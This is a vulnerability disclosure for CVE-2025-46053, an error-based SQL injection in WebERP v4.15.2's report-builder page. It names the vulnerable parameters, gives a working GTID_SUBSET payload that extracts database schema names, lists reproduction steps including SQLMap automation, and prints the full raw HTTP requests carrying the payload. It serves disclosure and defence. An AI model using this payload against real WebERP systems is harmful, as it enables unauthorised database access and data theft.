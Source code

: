 # CVE-2025-46053

---

## SQL Injection


An error-based SQL Injection (SQLi) vulnerability in WebERP v4.15.2 allows attackers to execute arbitrary SQL commands and extract sensitive data by injecting a crafted payload into the ReportID and ReplaceReportID parameters within a POST request to /reportwriter/admin/ReportCreator.php

* Vulnerable Endpoint: /reportwriter/admin/ReportCreator.php
* Vulnerable Param: ReportID, ReplaceReportID
* Payload: 
```
1 AND GTID_SUBSET(CONCAT((SELECT MID((IFNULL(CAST(schema_name AS NCHAR),1)),1,190) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 2,1)),1)
```

---

### Steps to reproduce:

1.) Authenticate as Admin user and proceed to Setup > Report Builder Tool:
![[Pasted image 20250513115107.png]]

2.) Go through the report building process until you see the following request:

```
POST /reportwriter/admin/ReportCreator.php?action=step3
```

![[Pasted image 20250513115128.png]]

3.) Append a ‘ to ReplaceReportID and observe the DB Error:
![[Pasted image 20250513115143.png]]

4.) Get the DB name through error based SQLi:
```
1 AND GTID_SUBSET(CONCAT((SELECT MID((IFNULL(CAST(schema_name AS NCHAR),1)),1,190) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 2,1)),1)
```

![[Pasted image 20250513115205.png]]

5.) Automate this process with SQLMap:
![[Pasted image 20250513115338.png]]


6.) Confirm this vulnerability with ReportID parameter:
![[Pasted image 20250513115503.png]]



--- 

### Vulnerable Request for ReplaceReportId parameter:
```
POST /reportwriter/admin/ReportCreator.php?action=step3 HTTP/1.1
Content-Length: 298
Host: localhost:8083
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Origin: http://localhost:8083
Referer: http://localhost:8083/reportwriter/admin/ReportCreator.php?action=step2
Cookie: <cookie>
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Connection: close

FormID=dfecb1c0a019c47346bfab0d39d1f1789f15e826&ReportID=1&Type=1&ReplaceReportID=1%20AND%20GTID_SUBSET(CONCAT((SELECT%20MID((IFNULL(CAST(schema_name%20AS%20NCHAR)%2c1))%2c1%2c190)%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%202%2c1))%2c1)&ReportName=&GroupName=ord&FormGroup=gl%3Achk&todo=Replace
```


### Vulnerable Request for ReportID parameter:
```
POST /reportwriter/admin/ReportCreator.php?action=step6 HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 99
Origin: http://localhost:8083
Connection: close
Referer: http://localhost:8083/reportwriter/admin/ReportCreator.php?action=step5
Cookie: <cookie>
Upgrade-Insecure-Requests: 1
Priority: u=0, i

FormID=dfecb1c0a019c47346bfab0d39d1f1789f15e826&ReportID=143&Type=rpt&ReportName=test&todo=Continue
```



